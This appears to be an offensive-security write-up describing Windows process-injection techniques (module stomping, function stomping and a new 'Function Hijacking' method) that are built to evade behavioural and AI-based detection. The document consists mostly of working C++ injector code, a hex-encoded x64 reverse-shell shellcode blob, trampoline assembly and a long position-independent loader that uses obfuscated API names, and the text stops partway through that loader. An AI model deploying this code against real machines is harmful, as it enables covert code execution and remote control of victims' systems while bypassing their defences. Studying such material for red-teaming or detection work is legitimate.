



# From Process Injection to Function Hijacking

## TL;DR

Process injection is a widespread defense evasion technique often used in malware development, 
and consist into writing (injecting) code within the address space of a remote process. 
Although there are numerous process injection techniques, almost all of them adopt a general workflow:



With the advent of AI/ML models in the detection engineering field, a lot of commonly used TTPs are now
"easier" to detect, even automatically. In this context, the workflow presented may be ultimately converted
into a behaviour, which could be detected by a model.

The main question we would like to answer is whether we really need to fall into this behavioural pattern, or
there is another way. In the following sections, we'll discuss one of the (potentially) many techniques
that fall outside this behavioural pattern: Function Hijacking. 

Function Hijacking abuses an already loaded DLL to write malicious code in a target process.
The malicious code is crafted in such a way that whatever exported function will be invoked 
by the program, the control flow will be redirected to the malicious code.

Upon execution, the technique will then restore the original DLL code, and the program will continue.

## From Basic Process Injection to Module Stomping

Before digging into the technique itself, let's start again with the basics. A trivial process 
injection implementation is provided below:

```cpp
# Thanks @spotheplanet and www.ired.team
# https://www.ired.team/offensive-security/code-injection-process-injection/process-injection

#include "Windows.h"

int main(int argc, char *argv[])
{
	unsigned char shellcode[] = "<EVIL_BUFFER>";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;

	printf("Injecting to PID: %i", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);

    return 0;
}
```

We can easily see how this simple injector falls in the workflow described before:
* Allocate: `VirtualAllocEx`
* Write: `WriteProcessMemory`
* Execute: `CreateRemoteThread`

With module stomping, we're going one step further. The main idea behind module stomping is to leverage already
"allocated" RX data to write our payload. This memory region is namely a module (DLL) loaded in the target process.
In its trivial form, module stomping proceeds by loading a sacrificial DLL into the target process, and locates
its entry point. After that, the technique consists in overwriting the module with the desired code, then
executing it by starting a remote thread in the victim process.


```cpp

# Taken from:
# https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection
# Creadits: @spotheplanet

#include <iostream>
#include <Windows.h>
#include <psapi.h>

int main(int argc, char *argv[])
{
	HANDLE processHandle;
	PVOID remoteBuffer;
	wchar_t moduleToInject[] = L"C:\\windows\\system32\\amsi.dll";
	HMODULE modules[256] = {};
	SIZE_T modulesSize = sizeof(modules);
	DWORD modulesSizeNeeded = 0;
	DWORD moduleNameSize = 0;
	SIZE_T modulesCount = 0;
	CHAR remoteModuleName[128] = {};
	HMODULE remoteModule = NULL;

	// simple reverse shell x64
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

	// inject a benign DLL into remote process
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	//processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 8444);
	
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof moduleToInject, MEM_COMMIT, PAGE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)moduleToInject, sizeof moduleToInject, NULL);
	PTHREAD_START_ROUTINE threadRoutine = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	HANDLE dllThread = CreateRemoteThread(processHandle, NULL, 0, threadRoutine, remoteBuffer, 0, NULL);
	WaitForSingleObject(dllThread, 1000);
	
	// find base address of the injected benign DLL in remote process
	EnumProcessModules(processHandle, modules, modulesSize, &modulesSizeNeeded);
	modulesCount = modulesSizeNeeded / sizeof(HMODULE);
	for (size_t i = 0; i < modulesCount; i++)
	{
		remoteModule = modules[i];
		GetModuleBaseNameA(processHandle, remoteModule, remoteModuleName, sizeof(remoteModuleName));
		if (std::string(remoteModuleName).compare("amsi.dll") == 0) 
		{
			std::cout << remoteModuleName << " at " << modules[i];
			break;
		}
	}

	// get DLL's AddressOfEntryPoint
	DWORD headerBufferSize = 0x1000;
	LPVOID targetProcessHeaderBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, headerBufferSize);
	ReadProcessMemory(processHandle, remoteModule, targetProcessHeaderBuffer, headerBufferSize, NULL);

	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)targetProcessHeaderBuffer;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)targetProcessHeaderBuffer + dosHeader->e_lfanew);
	LPVOID dllEntryPoint = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD_PTR)remoteModule);
	std::cout << ", entryPoint at " << dllEntryPoint;

	// write shellcode to DLL's AddressofEntryPoint
	WriteProcessMemory(processHandle, dllEntryPoint, (LPCVOID)shellcode, sizeof(shellcode), NULL);
	
	// execute shellcode from inside the benign DLL
	CreateRemoteThread(processHandle, NULL, 0, (PTHREAD_START_ROUTINE)dllEntryPoint, NULL, 0, NULL);
	
	return 0;
}
```


The main advantage of this technique is to start the thread from within a module, so that it appears to originate
from legitimate executable code. A visual example below:


A great description of this technique can be found in the F-Secure Research blog, [here][5].

However, from a behavioural perspective, we can see how this technique also falls in the workflow 
described before:
* Allocate: `LoadLibrary`
* Write: `WriteProcessMemory`
* Execute: `CreateRemoteThread`

## Function Stomping

Function stomping is a technique building on the same concept of module stomping, but that tries to be 
stealthier. Instead of overwriting the module entry point, this technique overwrites a specific 
exported function.

The first public C++ PoC I've seen for function stomping was published by [Ido Veltzman][5], 
and it's available [here][4]. However, the technique was already documented. As an example, Daniel Duggan
(aka [_RastaMouse][12]) described how to do this in C# back in 2020. You can find the original post [here][13].

The main advantage of this technique, in comparison with module stomping, is that the thread appears to
be started from an export:


As observed with module stomping, the behaviour of this technique is still the same:
* Allocate: `LoadLibrary`
* Write: `WriteProcessMemory`
* Execute: `CreateRemoteThread`

### Working on the behaviour

An overlooked benefit of function stomping is that is possible to avoid loading a sacrificial DLL 
in the process, simply by leveraging the fact that certain DLL exports are not called by the process
we are injecting into.

If a DLL export is never called by a victim process, it is possible to just overwrite that export
instead of a loading a new DLL into the process. This way, we can skip the "allocate" part of our
behaviour, restricting it to:

* Write: `WriteProcessMemory`
* Execute: `CreateRemoteThread`

However, this technique, in its most simplistic form, still leaves some issues to deal with. 
Let's proceed step-by-step, analysing what are the issues arising from this technique.

##### Where are we writing?

As observable from the code, once got a handle to the target function, the overwrite process starts.
The first thing to note is that no size-checking is performed against the shellcode buffer and the 
function stub length. So, how do we know we are not overwriting other function? The answer is, we 
don't know. Let's check in WinDbg what's happening before/after the function is overwritten:

##### Before


##### After



We overwrote other functions as well. But what does that mean in the context of an attacker?
Well, as we described before, when performing code injection techniques, we don't want the program 
we are injecting into to start behaving suspiciously or to stop working, as that would be a game over.

That said, if we overwrite consecutive functions in a critical DLL like `Kernel32` or `ntdll`, we are
most likely breaking some application functionalities, and that's far from being ideal.

Another aspect we might want to consider is that if we overwrote any API called by our own shellcode... 
we might encounter other issues as well.

## "Choosy" function stomping

Based on this, we can easily improve this technique by wisely choose the export to overwrite. Ideally,
we would like to overwrite an export which has the following properties:

* It's never called by the process during its lifespan (not directly nor indirectly)
* Can be overwritten in isolation (meaning we can't overwrite it without overwriting other exports)

If we can find such an export, we are "good to go". But how?

We can search in the documentation for functions that are unlikely to be called on a regular basis, 
due to their specific functionalities. But this is, of course, not an ideal strategy.

A more natural approach would be studying the target process deeply. Starting from the IAT, we
can collect a reasonable list of APIs called by the victim process. But doing that would probably 
not be even close enough, as we would still miss at least the following:

* Function called by custom DLLs
* Function called by function pointers (dynamically)
* Other edge cases

Tools like [Dependency Walker](http://www.dependencywalker.com/) can help use moving in the right direction.

## Function Hijacking

Building on the same concept, though, it's possible to take a completely opposite route. 
Indeed, we would like to avoid using `CreateRemoteThread` at all (nor APC), but how? 
Well, the answer is what I defined as an "overlooked advantage" of Function Stomping. As a premise, we
should think about what an export really is: a pointer to an executable routine. When a function is called,
nothing special really happens under the hood:

1. Parameters are placed accordingly to the fastcall convention (RCX, RDX, R8, R9, and stack)
2. The function is called. (ASM `call <export>`)

In this case, what would happen if the export is overwritten by PIC shellcode before point 2 happens? 
It's very simple, it would just EXECUTE the PIC shellcode smoothly.

The idea behind this process injection technique now should be very clear, we can overwrite an export 
that is indeed used by a victim process, forcing it to execute the code without us executing it. 

Let's test it out. For the scope of this post, we will use a very simple piece of code to test out our 
hypothesis. The code might slightly change based on the function we want to overwrite, but it's always 
very simple. In case we want to overwrite the `UuidToStringW` API, the code will be like the following:

```cpp
#ifndef _AMD64_
#define _AMD64_
#endif

#include <iostream>
#include <synchapi.h>
#include <rpc.h>

int main()
{	
	UUID uuid;
	RPC_WSTR szUuid;
	RPC_STATUS status;

	status = UuidFromStringW((RPC_WSTR)L"f864de8b-79e1-4a3d-a4e1-0f0e0cb59de3", &uuid);
	printf("Press Any Key to execute UuidToStringW\n");
	getchar();
	
	status = UuidToStringW(&uuid, &szUuid);
	SleepEx(2 * 1000, TRUE);
	printf("Press Any Key to keep Re-Execute UuidToStringW\n");
	getchar();

	status = UuidToStringW(&uuid, &szUuid);
	printf("UUID: %ws\n", szUuid);
	printf("Press Any Key to terminate\n");
	getchar();

	return (int)status;
}
```

The important bit is for this program to stop, wait for the function to be stomped, and then call the 
stomped function.


As we can observe, the function executes just fine, meaning we don't really need to modify anything in our
shellcode (as long as it is PIC). However, the program crashes, and the reason is that we corrupted a
DLL in the process of writing our shellcode.

### Building on this concept

We can build on this concept to execute a piece of code by leveraging the fact that whatever program uses
Windows APIs and functions exported by several DLLs. At this point, we can follow two different routes:

1. Accuracy Route: We will target just one specific function. This will give us the opportunity to execute
    our code and restore the target execution with 0 flaws. However, this might cause us to wait a longer time in
    memory, with the risk of being detected.
2. Speed Route: We will target multiple functions. We won't be able to fully restore the execution of the 
    thread, but we can cause just a non-stopping error, we won't cause the program to break. However, this will
    allow us to execute our code in the shortest time possible.

Following my tests, the second route is often preferred, and we're going to proceed implementing that. 
Implementing (1) is left as an exercise for the reader.

*Note: the code we will use to implement (2) can be easily adopted to implement (1).*

The main idea is this:

1. Find a set of exported APIs that are usually used by the target process
2. Calculate the interspaces between the DLL exports addresses
3. Find a suitable space for the shellcode
4. Find a suitable space for a trampoline
5. Fill all other spaces with indirect jumps

At the end of the above process, we would have a situation where whatever API called within the DLL, 
would eventually execute the trampoline, or the shellcode.

But, the journey is far from being finished. We need indeed to clear our presence from the DLL and execute 
the original function as it was called. To do that, we would need to do a few things:

* Save the original DLL bytes (the ones we want to overwrite)
* Create a shellcode to re-patch our DLL and append it to the original shellcode
* Write the final payload in the DLL using `WriteProcessMemory` or similar 
* Wait for the program to call an API in the tampered DLL

If the inner working of this logic is not clear, let's take a look at the following visual workflow:


### Implementation

The full implementation mainly consists of parts already identified above. Let's build our code step-by-step
now.

##### Calculate spaces

For simplicity, I will reuse some [modexpblog][7]'s code in [SysWhispers2][4] to build a list of export of an arbitrary DLL.

* Identify the address of the target DLL exports and store the delta (space) between them
* Find a position which is suitable for the shellcode itself
* Find a position which is suitable for the loader
* Find a position which is suitable for the trampoline
* Fill the others with forward jumps or jump-to-trampoline

##### Jump Forward

Forward JMPs are quite easy to implement, we just need the number of bytes to jump. If we're choosing this 
route, it's because there is very little space between this export and the next one, so a short jump is 
guaranteed to be enough.

```asm
JMP SHORT <NEXT-EXPORT> 
```

##### Goto to Trampoline

A "Goto" like functionality is implemented as a direct long jump. This route is taken if there is enough space
for it, but not enough space for the trampoline or the shellcode itself.

```asm
mov r15, <ADDRESS-OF-TRAMPOLINE>
jmp r15
```

##### Trampoline

```asm
push rcx                                ; Save 4 main args
push rdx
push r8
push r9
push rdi                                ; Saving RDI, as we're using to store RSP
mov rdi, rsp
and rsp, 0fffffffffffffff0h             ; Align stack (required before "call" instruction)
sub rsp, 40h                            ; Shadow space
mov r15, <ADDRESS-OF-LOADER>h           ; Move routine into r15
call r15                                ; Call routine
add rsp, 40h                            ; Restore rsp
mov rsp, rdi
pop rdi                                 ; Restore RDI
pop r9                                  ; Restore original parameters
pop r8
pop rdx
pop rcx
ret                                     ; ret
```

##### Shellcode

A very important  piece of this puzzle is the shellcode itself. The shellcode used should launch our code
AND re-patch the DLL to make our injection as difficult to detect as possible.

To build the main shellcode, we will use a technique shared by Aleksandra Doniec (aka [hasherezade][6]).

I have implemented a helper script to do this within [inceptor][1], to facilitate the process a bit.
It's available [here](https://github.com/klezVirus/inceptor/blob/dev/inceptor/pic-generator.py).

> Note:
> Chetan Nayak (aka paranoidninja), among others, also described this technique (for GCC, though) [here][3].

###### Shellcode 1 - Loader

This shellcode need to be used to avoid a problem that I called "shooting on your feet". Indeed, when
this shellcode is executing, the program instruction pointer will be in the "stomped" DLL. To avoid 
overwriting the instructions that we are executing, we will use this loader to set up the shellcode
on the heap and schedule its execution while we are restoring the stomped DLL. 

The logic of our shellcode will be something like this:


  
```cpp
#include <Windows.h>
// #include <stdio.h>
#include "addresshunter.h"

#define FREE

#define MOV_SPACE 12
#define PAGE_SIZE 4096
#define N_ROP_GADGETS 7

typedef HMODULE(WINAPI* LoadLibraryType)(LPCWSTR lpLibFileName);
typedef LPVOID(WINAPI* VirtualAllocType)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);
typedef BOOL(WINAPI* VirtualProtectType)(LPVOID lpAddress, SIZE_T dwSize, DWORD flNewProtect, PDWORD lpflOldProtect);
typedef BOOL(WINAPI* VirtualFreeType)(LPVOID lpAddress, SIZE_T dwSize, DWORD dwFreeType);
typedef BOOL(WINAPI* VirtualQueryType)(LPCVOID lpAddress, PMEMORY_BASIC_INFORMATION lpBuffer, SIZE_T dwLength);
typedef void (WINAPI* SleepType)(DWORD dwMilliseconds);

#ifdef APC
typedef DWORD(WINAPI* QueueUserAPCType)(PAPCFUNC pfnAPC, HANDLE hThread, ULONG_PTR dwData);
typedef HANDLE(WINAPI* CreateThreadType)(LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);
#else
typedef DWORD(WINAPI* SleepExType)(DWORD dwMilliseconds, BOOL bAlertable);
typedef HANDLE(WINAPI* CreateThreadType)(LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);
typedef DWORD(WINAPI* WaitForSingleObjectType)(HANDLE hHandle, DWORD dwMilliseconds);
#endif

typedef BOOL(WINAPI* CloseHandleType)(HANDLE hObject);
typedef HANDLE(WINAPI* GetCurrentThreadType)();
typedef HANDLE(WINAPI* CreateMutexType)(LPSECURITY_ATTRIBUTES lpMutexAttributes, BOOL bInitialOwner, LPCWSTR lpName);
typedef BOOL(WINAPI* ReleaseMutexType)(HANDLE hMutex);

typedef LSTATUS(WINAPI* RegOpenKeyType)(HKEY hKey, LPCWSTR lpSubKey, PHKEY phkResult);
typedef LSTATUS(WINAPI* RegGetValueType)(HKEY hkey, LPCWSTR lpSubKey, LPCTSTR lpValue, DWORD dwFlags, LPDWORD pdwType, PVOID pvData, LPDWORD pcbData);
typedef LSTATUS(WINAPI* RegSetValueExType)(HKEY hKey, LPCWSTR lpValueName, DWORD Reserved, DWORD dwType, CONST BYTE* lpData, DWORD cbData);
typedef LSTATUS(WINAPI* RegCloseKeyType)(HKEY hKey);


typedef void* (WINAPIV* memsetType)(void* dest, int c, size_t count);
typedef void* (WINAPIV* memcpyType)(void* dest, const void* src, size_t count);
typedef int (WINAPIV* memcmpType)(const void* buffer1, const void* buffer2, size_t count);
typedef void (WINAPI* ExitThreadType)(DWORD dwExitCode);
#ifdef _DEBUG
typedef void (WINAPIV* printfType)(const char* fmt, ...);
#endif


int main()
{

    // DLLs to dynamically load during runtime
    HMODULE kernel32dll, msvcrtdll, advapi32dll, ntdll;

    // Types
    // msvcrt.dll
    memcpyType memcpyFunc;
    memcmpType memcmpFunc;
    memsetType memsetFunc;
#ifdef _DEBUG
    printfType printfFunc;
#endif

    // advapi32.dll
    RegGetValueType RegGetValueFunc;
    RegSetValueExType RegSetValueExFunc;
    RegOpenKeyType RegOpenKeyFunc;

    // kernel32.dll
    LoadLibraryType LoadLibraryFunc;
    VirtualAllocType VirtualAllocFunc;
    VirtualProtectType VirtualProtectFunc;
    SleepType SleepFunc;

    CreateThreadType CreateThreadFunc;
    WaitForSingleObjectType WaitForSingleObjectFunc;

#ifdef FREE
    VirtualFreeType VirtualFreeFunc;
#endif

    VirtualQueryType VirtualQueryFunc;
    GetCurrentThreadType GetCurrentThreadFunc;
    ExitThreadType ExitThreadFunc;
    CreateMutexType CreateMutexFunc;
    ReleaseMutexType ReleaseMutexFunc;
    CloseHandleType CloseHandleFunc;
    RegCloseKeyType RegCloseKeyFunc;


    CHAR LoadLibraryName[] = { 'L', 'o', 'a', 'd', 'L', 'i', 'b', 'r', 'a', 'r', 'y', 'W', '\0' };
    CHAR VirtualAllocName[] = { 'V', 'i', 'r', 't', 'u', 'a', 'l', 'A', 'l', 'l', 'o', 'c', '\0' };
    CHAR VirtualProtectName[] = { 'V', 'i', 'r', 't', 'u', 'a', 'l', 'P', 'r', 'o', 't', 'e', 'c', 't', '\0' };
    CHAR VirtualQueryName[] = { 'V', 'i', 'r', 't', 'u', 'a', 'l', 'Q', 'u', 'e', 'r', 'y', '\0' };
    CHAR ExitThreadName[] = { 'E', 'x', 'i', 't', 'T', 'h', 'r', 'e', 'a', 'd', '\0' };
    CHAR SleepName[] = { 'S', 'l', 'e', 'e', 'p', '\0' };

#ifdef FREE
    CHAR VirtualFreeName[] = { 'V', 'i', 'r', 't', 'u', 'a', 'l', 'F', 'r', 'e', 'e', '\0' };
#endif

    CHAR CreateThreadName[] = { 'C', 'r', 'e', 'a', 't', 'e', 'T', 'h', 'r', 'e', 'a', 'd', '\0' };
    CHAR WaitForSingleObjectName[] = { 'W', 'a', 'i', 't', 'F', 'o', 'r', 'S', 'i', 'n', 'g', 'l', 'e', 'O', 'b', 'j', 'e', 'c', 't', '\0' };
    CHAR GetCurrentThreadName[] = { 'G', 'e', 't', 'C', 'u', 'r', 'r', 'e', 'n', 't', 'T', 'h', 'r', 'e', 'a', 'd', '\0' };
    CHAR CreateMutexName[] = { 'C', 'r', 'e', 'a', 't', 'e', 'M', 'u', 't', 'e', 'x', 'W', '\0' };
    CHAR ReleaseMutexName[] = { 'R', 'e', 'l', 'e', 'a', 's', 'e', 'M', 'u', 't', 'e', 'x', '\0' };
    CHAR CloseHandleName[] = { 'C', 'l', 'o', 's', 'e', 'H', 'a', 'n', 'd', 'l', 'e', '\0' };

    CHAR RegOpenKeyName[] = { 'R', 'e', 'g', 'O', 'p', 'e', 'n', 'K', 'e', 'y', 'W', '\0' };
    CHAR RegSetValueName[] = { 'R', 'e', 'g', 'S', 'e', 't', 'V', 'a', 'l', 'u', 'e', 'E', 'x', 'W', '\0' };
    CHAR RegGetValueName[] = { 'R', 'e', 'g', 'G', 'e', 't', 'V', 'a', 'l', 'u', 'e', 'W', '\0' };
    CHAR RegCloseKeyName[] = { 'R', 'e', 'g', 'C', 'l', 'o', 's', 'e', 'K', 'e', 'y', '\0' };

    LONG result;
    HKEY hKey;
    WCHAR regKey[] = { 'S', 'O', 'F', 'T', 'W', 'A', 'R', 'E', '\\', 'L', 'a', 'm','w','a', 'r', 'e', '\0' };
    WCHAR trpValue[] = { 'T', 'r', 'a', 'm', 'p', 'o', 'l', 'i', 'n', 'e', 'A', 'd', 'd', 'r', 'e', 's','s', '\0' };
    WCHAR shValue[] = { 'S', 'C', 'o', 'd', 'e', 'A', 'd', 'd', 'r', 'e', 's','s', '\0' };
    WCHAR shsValue[] = { 'S', 'C', 'o', 'd', 'e', 'S', 'i', 'z', 'e', '\0' };
    WCHAR tiValue[] = { 'T', 'h', 'r', 'e', 'a', 'd', 'I', 'd', '\0' };

    WCHAR mutexName[] = { 'F', 'u', 'n', 'H', 'i', 'j', 'a', 'c', 'k', '\0' };

    LPCTSTR value;

    // DLL to load via LoadLibraryA
    WCHAR msvcrtdllName[] = { 'm', 's', 'v', 'c', 'r', 't', '.', 'd', 'l', 'l', '\0' };
    WCHAR advapi32dllName[] = { 'a', 'd', 'v', 'a', 'p', 'i', '3', '2', '.', 'd', 'l', 'l', '\0' };

    // Symbols from MSVCRT
    CHAR memcpyName[] = { 'm', 'e', 'm', 'c', 'p', 'y', '\0' };
    CHAR memcmpName[] = { 'm', 'e', 'm', 'c', 'm', 'p', '\0' };
    CHAR memsetName[] = { 'm', 'e', 'm', 's', 'e', 't', '\0' };
#ifdef _DEBUG
    CHAR printfName[] = { 'p', 'r', 'i', 'n', 't', 'f', '\0' };
#endif

    // Gadgets
    UCHAR POP_RAX_RET[] = {0x58, 0xc3};
    UCHAR POP_RCX_RET[] = {0x59, 0xc3};
    UCHAR POP_RDX_RET[] = {0x5A, 0xc3};
    UCHAR POP_R8__RET[] = {0x41, 0x58, 0xc3};
    UCHAR POP_RSP_RET[] = {0x5C, 0xc3};
    UCHAR RET[] = {0xc3};

    // ntdll
    ntdll = (HMODULE)GetModule(NTDLL_HASH);

    // kernel32.dll exports
    kernel32dll = (HMODULE)GetModule(KERNEL32DLL_HASH);
    LoadLibraryFunc = (LoadLibraryType)GetSymbolAddress(kernel32dll, (LPCSTR)LoadLibraryName);
    VirtualAllocFunc = (VirtualAllocType)GetSymbolAddress(kernel32dll, (LPCSTR)VirtualAllocName);
    VirtualProtectFunc = (VirtualProtectType)GetSymbolAddress(kernel32dll, (LPCSTR)VirtualProtectName);

    SleepFunc = (SleepType)GetSymbolAddress(kernel32dll, (LPCSTR)SleepName);
    VirtualQueryFunc = (VirtualQueryType)GetSymbolAddress(kernel32dll, (LPCSTR)VirtualQueryName);
#ifdef FREE
    VirtualFreeFunc = (VirtualFreeType)GetSymbolAddress(kernel32dll, (LPCSTR)VirtualFreeName);
#endif

    CreateThreadFunc = (CreateThreadType)GetSymbolAddress(kernel32dll, (LPCSTR)CreateThreadName);
    WaitForSingleObjectFunc = (WaitForSingleObjectType)GetSymbolAddress(kernel32dll, (LPCSTR)WaitForSingleObjectName);
    GetCurrentThreadFunc = (GetCurrentThreadType)GetSymbolAddress(kernel32dll, (LPCSTR)GetCurrentThreadName);
    CreateMutexFunc = (CreateMutexType)GetSymbolAddress(kernel32dll, (LPCSTR)CreateMutexName);
    ReleaseMutexFunc = (ReleaseMutexType)GetSymbolAddress(kernel32dll, (LPCSTR)ReleaseMutexName);
    CloseHandleFunc = (CloseHandleType)GetSymbolAddress(kernel32dll, (LPCSTR)CloseHandleName);
    ExitThreadFunc = (ExitThreadType)GetSymbolAddress(kernel32dll, (LPCSTR)ExitThreadName);


    HANDLE hMutex = CreateMutexFunc(NULL, TRUE, (LPCWSTR)mutexName);
    if (NULL == hMutex) {
        // Mutex exists, so we exit
        return EXIT_FAILURE;
    }

    // msvcrt.dll exports
    msvcrtdll = (HMODULE)GetModule(MSVCRTDLL_HASH);
    if (0 == (int)msvcrtdll) {
        msvcrtdll = LoadLibraryFunc((LPCWSTR)msvcrtdllName);
    }
    memsetFunc = (memsetType)GetSymbolAddress(msvcrtdll, (LPCSTR)memsetName);
